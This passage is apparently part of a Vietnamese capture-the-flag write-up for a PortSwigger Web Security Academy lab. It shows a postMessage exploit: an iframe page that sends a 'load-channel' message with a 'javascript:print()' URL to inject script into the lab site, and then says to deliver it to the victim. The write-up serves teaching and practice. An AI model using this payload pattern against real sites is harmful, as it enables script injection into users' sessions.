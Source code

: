![Untitled](wu_media/Untitled%204.png)

Như vậy `JSON` được gửi sẽ có dạng sau

```json
{
    "type": "load-channel",
    "url": "javascript:print()"
}
```

```html
<script>
    function send(object) {
        data = {
            "type": "load-channel",
            "url": "javascript:print()"
        };
        object.contentWindow.postMessage(JSON.stringify(data), '*');
    }
</script>
<iframe src="https://0aed005803bcb4f8c0eb782d006000f9.web-security-academy.net/" onload="send(this); console.log(this);" height="100%"
    width="100%">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab
